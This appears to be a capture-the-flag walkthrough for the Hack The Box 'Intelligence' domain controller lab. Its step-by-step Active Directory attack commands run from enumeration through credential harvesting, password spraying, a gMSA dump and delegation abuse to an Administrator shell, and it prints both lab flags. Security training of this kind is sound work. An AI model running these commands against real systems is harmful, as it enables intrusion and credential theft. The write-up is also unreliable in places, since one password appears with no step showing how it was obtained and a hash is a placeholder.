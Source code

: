 
- Open port 80
- Port 88 is Kerberos
- Port 5985 is WinRM
- Port 389 is LDAP
- Common name: dc.intelligence.htb
- Port 445 is SMB

Check port 80 with WhatWeb:

```bash
whatweb 10.10.10.248
```

This shows a domain intelligence.htb, indicating virtual hosting is in use. Save this domain and link it to the IP in the system's hosts file.

Port 445 is open; use CrackMapExec to gather more information:

```bash
crackmapexec smb 10.10.10.248
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
```

CrackMapExec has the `--shares` parameter to list shared resources:

```bash
crackmapexec smb 10.10.10.248 --shares
SMB         10.10.10.248    445    DC               [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
```

You can also use SMBMap to list shared resources:

```bash
smbmap -H 10.10.10.248 -u 'null'
[!] Authentication error on 10.10.10.248
```

These tools don't report any resources, so valid credentials are needed to view the victim machine's resources.

You need to enumerate users to try to obtain valid credentials. Use rpcclient with a null session to test if you have access:

```bash
rpcclient -U "" 10.10.10.248
Cannot connect to the server. Error was NT_STATUS_LOGON_FAILURE
```

Rpcclient does not allow enumeration without valid credentials, so you need valid credentials.

Check the HTTP service in the browser as it's a website. Try to obtain credentials or find vulnerabilities for remote command execution.

On the website, you can download PDF documents. Analyze them with exiftool to find important content like valid system users in the document metadata. The URL for the list of PDF files follows a date pattern. You can create a Bash one-liner to iterate through date ranges and attempt to download files and discover confidential information:

```bash
for i in {2020..2022}; do for j in {01..12}; do for k in {01..31}; do echo "http://10.10.10.248/documents/$i-$j-$k-upload.pdf"; done; done; done | xargs -n 1 -P 20 wget
```

After downloading the files, use the exiftool to analyze the metadata of the PDF files and search for the "creator" line containing the username:

```bash
exiftool *.pdf | grep "Creator" | awk 'NF{print $NF}' | sort -u > users
```

With this potential list of valid users, use the Kerbrute tool to validate the list of users:

```bash
kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users
```

All users in the list are valid. Now that you have a list of valid users, you can perform an ASREPRoast attack and request TGTs (explain what TGTs are in this context):

```bash
GetNPUsers.py intelligence.htb/ -no-pass -usersfile users
```

Since these users do not have the "Don't require preauth" parameter set, you cannot obtain the hash.

So, recheck the previously downloaded PDF files to search for possible passwords. Use the pdftotext tool to easily read the content of each PDF file in the terminal:

```bash
for file in $(ls); do echo $file; done | grep -v users | while read filename; do pdftotext $filename; done
```

This one-liner creates text files with pdftotext for each PDF. Now, analyze each .txt file:

```bash
cat *.txt
NewIntelligenceCorpUser9876
```

You found a possible password. Use CrackMapExec to find out which user from your list this password belongs to:

```bash
crackmapexec smb 10.10.10.248 -u users -p 'NewIntelligenceCorpUser9876'
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```

Now that you have validated the credentials, you need to figure out how to gain access to the victim's machine. You can use the BloodHound Python tool to gather more information to gain access:

```bash
mkdir bloodhound
bloodhound-python -c ALL -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -ns 10.10.10.248 -d intelligence.htb
neo4j console
bloodhound &> /dev/null & disown

# In the program:
# - Upload data
# - Search for users for whom you already have credentials and mark them as "pwned" in the program
# - Then, select a user and use the "node info" option
```

This reveals that the user Ted.Graves can dump the GMSA password for SVC_INT. To do this, use the 'gmsadumper' tool:

```bash
gmsadumper -u 'Ted.Graves' -p 'Mr.Teddy' -l 10.10.10.248 -d intelligence.htb
```

You have the hash of SVC_INT, which has the "AllowedToDelegate" privilege, allowing you to impersonate the Administrator user and gain access to the machine. Use the "getST" tool:

```bash
getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :fdasfhash
```

You need the "spn" parameter for "getST," which you can find using the "pywerview" tool:

```bash
pywerview get-netcomputer -u 'Ted.Graves' -p 'Mr.Teddy' -t 10.10.10.248 --full-data
# Search for msds-allowedtodelegateto
```

When you run "getST" again, it gives you a .ccache file. Authenticate to the victim machine as Administrator using "wmiexec":

```bash
# Set the environment variable on your machine
export KRB5CCNAME=Administrator.ccache

# Execute the command
wmiexec dc.intelligence.htb -k -no-pass
```

This way, you gain access as Administrator and can consider this machine from Hack The Box solved:

- User flag: 95f3d069016706a76c6f624d1d41c82f
- Root flag: 5f5781dfc5eb477c4bb9710764b009c3